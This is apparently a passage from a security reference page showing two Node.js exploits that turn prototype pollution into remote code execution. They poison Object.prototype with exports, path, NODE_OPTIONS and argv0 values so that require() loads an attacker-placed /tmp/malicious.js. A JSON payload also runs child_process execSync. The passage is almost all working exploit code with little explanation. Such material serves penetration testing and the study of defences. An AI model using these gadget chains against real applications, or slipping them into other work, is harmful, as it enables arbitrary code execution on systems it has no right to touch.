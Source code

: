 ```
// Create a file called malicious.js in /tmp
// Contents of malicious.js in the other tab

// Manual Pollution
b = {}
b.__proto__.exports = { ".": "./malicious.js" }
b.__proto__["1"] = "/tmp"

// Trigger gadget
var proc = require("./relative_path.js")
// This should execute the file /tmp/malicious.js
// The relative path doesn't even need to exist

// Abusing the vulnerable code
USERINPUT = JSON.parse(
  '{"__proto__": {"exports": {".": "./malicious.js"}, "1": "/tmp", "NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\"child_process\\").execSync(\\"touch /tmp/pp2rce_exports_1\\").toString())//"}}'
)

clone(USERINPUT)

var proc = require("./relative_path.js")
// This should execute the file /tmp/malicious.js wich create the file /tmp/pp2rec
```
```

**malicious.js**

```javascript
const { fork } = require("child_process")
console.log("Hellooo from malicious")
fork("/path/to/anything")
```
```


#### Relative require - 2

**exploit**

```javascript
// Create a file called malicious.js in /tmp
// Contents of malicious.js in the other tab

// Manual Pollution
b = {}
b.__proto__.data = {}
b.__proto__.data.exports = { ".": "./malicious.js" }
b.__proto__.path = "/tmp"
b.__proto__.name = "./relative_path.js" //This needs to be the relative path that will be imported in the require

// Trigger gadget
var proc = require("./relative_path.js")
// This should execute the file /tmp/malicious.js
// The relative path doesn't even need to exist

// Abusing the vulnerable code
USERINPUT = JSON.parse(
  '{"__proto__": {"data": {"exports": {".": "./malicious.js"}}, "path": "/tmp", "name": "./relative_path.js", "NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\"child_process\\").execSync(\\"touch /tmp/pp2rce_exports_path\\").toString())//"}}'
)
```